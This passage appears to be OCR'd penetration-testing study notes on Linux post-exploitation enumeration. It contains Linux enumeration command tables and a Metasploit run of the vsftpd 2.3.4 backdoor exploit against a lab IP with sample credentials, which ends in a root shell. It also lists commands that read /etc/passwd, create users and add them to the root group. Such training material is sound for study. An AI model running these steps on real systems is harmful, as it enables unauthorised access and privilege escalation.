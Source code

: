 | `df -ht ext4`       | Filter on type `ext4`.                                    |
| `lsblk`             | List partitions.                                          |
| `dpkg -l`           | All installed packages.                                   |

#### Users & groups

After gaining initial access to a target system, it is always important to learn more about the system like, what user account you have access to and other user accounts on the system.

What are we looking for?

* Current user & privileges
* Other users on the system
* Groups

```bash
msf6> db_nmap -sV 192.144.183.3
msf6> setg rhosts 192.144.183.3
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
/bin/bash -i
root@victim> id  # root
```

| Command                        | Description                                                                                                   |
| ------------------------------ | ------------------------------------------------------------------------------------------------------------- |
| `groups root`                  | The groups the user `root` is part of.                                                                        |
| `cat /etc/passwd`              | Display user & service accounts. A user account has a shell at the end of line like `/bin/bash` or `/bin/sh`. |
| `groups`                       | The current user groups.                                                                                      |
| `useradd -m john -s /bin/bash` | Create a user john with a home directory and a login shell.                                                   |
| `usermod -aG root bob`         | Add bob to the root group.                                                                                    |
| `last`                         | Show the last users logged on.                                                                                |
| `lastlog`                      | Display all information about logged in users via SSH.                                                        |

#### Network information

What are we looking for?

* Current IP address & network adapter
* Internal networks
* TCP/UDP services running and their respective ports
* Other hosts on the network

